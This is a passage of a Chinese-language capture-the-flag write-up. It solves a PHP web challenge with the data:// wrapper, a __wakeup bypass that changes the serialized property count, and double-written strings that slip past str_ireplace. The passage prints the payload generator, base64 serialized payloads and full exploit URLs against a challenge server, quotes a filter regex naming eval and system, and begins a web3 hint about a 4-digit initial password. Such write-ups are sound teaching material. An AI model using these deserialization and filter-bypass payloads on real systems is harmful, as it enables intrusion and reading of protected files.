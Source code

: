 ```php
$file = @base64_decode(file_get_contents($_GET['file'],'r'))
$gogogo = @unserialize($file);
```

或者随便传一个反序列化就可以拿源码：（这里就不贴出来了，访问下面连接看源码即可）

```
http://8.130.27.133/web2/?file=data://text/plain,Tzo0OiJmbGFnIjowOnt9
```

过滤了`$safe = '/pass|etc|eval|system|file|data|biubiubiu/';`

三个考点：

1. 伪协议`data`或`php://input`绕过`file_get_contents`
2. 因为_wakeup方法会令file为index.php，修改序列化数据后的属性数目即可绕过
3. `str_ireplace(['fl@g','/','\\'],'',$this->file)`，会把匹配到的东西换为空，双写绕过

按上面三点构造payload

```php
<?php

class flag{
    private $file = 'flfl@@gg.php';
}

$a = new flag();
echo base64_encode(serialize($a));

# Tzo0OiJmbGFnIjoxOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbGZsQEBnZy5waHAiO30=
```

然后base64转码回来：`O:4:"flag":1:{s:10:"flagfile";s:12:"fl@fl@gg.php";}`
把1改为2再base64编码：`Tzo0OiJmbGFnIjoyOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbEBmbEBnZy5waHAiO30=`

最终payload：

```
http://8.130.27.133/web2/index.php?file=data:text/plain,Tzo0OiJmbGFnIjoyOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbEBmbEBnZy5waHAiO30=
```



ps：

这里自己没有注意private属性的不可见字符的问题，没有在写脚本的时候直接base64编码，
而是复制再用hackbar的base64编码，这就导致了其不可见字符没有传入进去

导致一直没能成功反序列化，求助了群里的师傅们，这里得感谢华泽师傅，才让我意思到自己的问题所在

## web3

http://8.130.27.133/web3/

![](https://i.loli.net/2021/09/21/hmlSRbX9KG5sAqd.png)

f12看到提示 `<!-- 初始4位密码，请及时修改 -->`
